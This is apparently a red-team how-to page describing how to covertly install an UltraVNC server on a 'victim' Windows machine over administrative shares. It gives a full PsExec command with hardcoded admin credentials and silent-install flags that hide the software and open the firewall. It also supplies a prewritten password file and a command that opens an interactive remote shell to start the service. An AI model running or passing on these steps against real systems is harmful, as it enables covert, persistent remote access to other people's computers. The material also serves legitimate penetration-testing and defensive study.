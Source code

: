 # VNC (UltraVNC) Remote Desktop Connectin Server/Client

UltraVNC is an open-source remote-administration/remote-desktop-software utility. The client supports Microsoft Windows and Linux but the server only supports Windows. It uses the VNC protocol to control/access another computer remotely over a network connection.

![Administrative shares](assets/uvnc.jpg "Administrative shares")

# Install VNC Server to Victim via Administrative Shares

You can remotely view or control the victim computer using the UltraVNC tool. For this, follow the steps below.

## Step 1: Download UltraVNC setup

Copy current version of ultravnc from the website to your computer as **"c:\\uvncsetup.exe"**.

## Step 2: Start installation 

To start silent installation on victim computer run **"uvncsetup.exe"** as remotely using **PsExec.exe** below. The command copy the specified executable (uvncsetup.exe) to the remote system for execution:

` psexec \\\victim -u admin -p admin0 -h -i -c C:\uvncsetup.exe /SP- /VERYSILENT /SUPPRESSMSGBOXES /NOCANCEL /NORESTART /CLOSEAPPLICATIONS /FORCECLOSEAPPLICATIONS /LOGCLOSEAPPLICATIONS /RESTARTAPPLICATIONS /NOICONS /FIREWALL /NOVIEW /COMPONENTS="ultravnc_server" /TASKS="installservice,stopservice" /DIR="%programfiles%\uvnc"


 The inno setup parameters above allow the installation to complete silently. The installation files will be saved in the **"%program files%\uvnc"** directory on victim computer.

## Step 4: Define new password 

Create the **ultravnc.ini** file with the password defined in the **"%programfiles%\uvnc"** of the victim computer. 
UltraVNC password is "**admin0**" defined in **ultravnc.ini**. The ini file content is below:

`
 [ultravnc]
 passwd=56B6ACA18D1BA76008
 passwd2=56B6ACA18D1BA76008
`

Copy the file to **"%programfiles%\uvnc"** folder on victim computer.

## Step 5: Restart the service

Start the service for the password to take effect. To restart the service open an interactive remote shell to victim computer below:

` psexec \\victim -u admin -p admin0 -h -i cmd.exe

And run below command over remote shell:

> net start uvnc_service
